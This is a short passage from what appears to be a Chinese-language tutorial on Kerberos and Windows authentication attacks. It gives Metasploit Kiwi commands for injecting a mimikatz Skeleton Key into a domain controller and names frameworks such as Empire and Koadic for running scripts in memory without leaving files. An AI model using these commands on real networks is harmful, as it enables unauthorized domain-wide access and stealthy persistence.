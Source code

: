 ![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-f61dd3ffef5746a9a757be26f1aaea3f.png)

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-afb215f22d504d9bba9c6b4b7ccdb296.png)



##### 使用Metasploit(MSF) Kiwi模块注入Skeleton Key

```powershell
load kiwi
kiwi_cmd misc::skeleton
shell
powershell
net use xxxx....
```



##### 更多

除了这上诉可以调用mimikatz脚本远程注入的程序外，还有很多，这些远程脚本注入可以有效地将脚本运行在内存而不是残留本地文件，比如:

- Koadic
- CS
- Empire
- 等等



#### Silver Ticket
